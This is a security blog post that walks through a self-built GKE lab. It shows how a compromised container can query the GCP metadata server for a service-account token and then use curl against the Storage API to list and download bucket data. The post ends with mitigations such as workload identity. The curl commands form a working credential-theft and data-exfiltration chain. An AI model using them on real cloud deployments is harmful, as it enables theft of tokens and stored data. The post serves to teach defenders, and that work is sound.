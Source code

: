 # Your GKE deployment and metadata - buckets

How hard is it to dump data from Google Cloud Project storage, if it's running a vulnerable container image? Very easy! Read on for a walk through.

If you've read Gitlab's excellent report on "Plundering Google Cloud"[[1]](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
you may be wondering, does it apply to Kubernetes and GKE? After all, the article seems to focus on compute engine VMs. GKE is a totally different beast right? Also it mentions early on about being able to read bucket contents from compute engine VM. But we are not just giving the attackers the VM/credentials, not deploying privileged images and keep our GKE deployment up to date.

### Lab setup
To simulate a compromised container I deployed [openSSH-server](https://github.com/linuxserver/docker-openssh-server) on a GKE cluster
and exposed it to the internet so I can access it. I configured a user "toto", with sudo privileges (although I won't be using them yet).
There are no intentional misconfigurations or out of date software[2]*

![lab image](https://eqqn.github.io/images/doc2.png)


### Discovery and metadata
Taking a page from the pentest workflows, we query the metadata server.

`curl "http://metadata.google.internal/computeMetadata/v1/?recursive=true&alt=text" -H "Metadata-Flavor: Google"`

This gives a lot of information and is a lot to proccess. 

To narrow it down, we want to look at the access scopes available to our instance.

`curl http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes -H 'Metadata-Flavor:Google' `

![Access scopes](https://eqqn.github.io/images/gke_access_scopes.png)

IF we have devstorage.read permissions it means we can read storage on our project.

Now since our storage is not public ( otherwise we wouldn't be doing this ), we need to authenticate ourselves against the google storage APIs.
Thats where metadata service steps in, providing us a Token that allows us to call google APIs on behalf of the instance. 

`curl "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token" -H "Metadata-Flavor: Google"`

To discover the names of the storage objects, we can query the google storage API with the token we procured. We will need the project name we found in metadata dump.

`curl -H "Authorization: Bearer <<TOKEN>>" "https://storage.googleapis.com/storage/v1/b?project=<<PROJECT_NAME>>"`

![Bucket Data](https://eqqn.github.io/images/bucket_data.png)

One of the objects is the bucket I created `****test`

If we query the object, it will reveal the files inside it :

`curl -H "Authorization: Bearer <<TOKEN>" "https://storage.googleapis.com/storage/v1/b/<<OBJECT_NAME>>/o" `

We see the file "bucketfile.txt", so lets grab it using curl:

`curl -X GET -H "Authorization: Bearer <<TOKEN>>" -o "bucketfile.txt" "https://www.googleapis.com/storage/v1/b/<<OBJECT_NAME>>/o/bucketfile.txt?alt=media"`

![Bucket Contents](https://eqqn.github.io/images/bucket_data_contents.png)  

( the file contents is "my secret bucket data" string) 

### Summary

Provided there is a vulnerable container in a deployment, you can dump all the bucket data in the project.

No container escapes, privilege escalation involved. It does need at least a backdoor, RCE, or SSRF class vulnerability to get the auth token.

Also there is no restrictions on callers origin when calling storage endpoint - with the instance token you can call storage from anywhere.
So you can make a nice script to dump all buckets in the project recursively.

You don't need access to *gcloud*, *gsutil* or other CLI utilities on the container - once you *curl* the token, you can continue the work on your machine.
This is useful when you have read-only filesystems, no write access , etc.

### Mitigations (?)
Partial mitigation exists, like fine-grained access rights on bucket ( are you using them?). You can also restrict the access rights for the 
node pool, by adding a service account to it with a different set of permissions. [[3]](https://cloud.google.com/kubernetes-engine/docs/how-to/protecting-cluster-metadata)

Workload identity is another candidate [[4]](https://cloud.google.com/kubernetes-engine/docs/how-to/workload-identity) and requires some setup.

Google is also beta-testing "Auto-pilot clusters" where they take over the heavy lifting in terms of hardening. 

So the last few mitigations might be a necessary evil, if you don't want to leak all your secrets thanks to a single access token.

### Enabling workload identity

If you follow the steps to enable workload identity on your cluster, you can shut down this attack. Workload identity replaces GCP metadata service with GKE cluster own metadata service. It intercepts any requests made to metadata endpoint and limits to the scopes the service account has. You can still authenticate against google services if you give your service identity the necessary permissions, but it is not enabled by default and will prevent the metadata based attacks. Your retrieved token will be different and have limited scopes. If we try the same attack again we will result in **403 - Forbidden**. 

![Bucket access denied](https://eqqn.github.io/images/access_denied_workload_identity.png)  

### References and comments: 

[1] https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/

[2] It's synthetic, but you don't want to deploy actually vulnerable applications on your cloud :) Yes, it's easier to just 
SSH via CLoudShell to the container, but you lose benefit of testing low privilege user and ingress/egress network connections

[3] https://cloud.google.com/kubernetes-engine/docs/how-to/protecting-cluster-metadata

[4] https://cloud.google.com/kubernetes-engine/docs/how-to/workload-identity

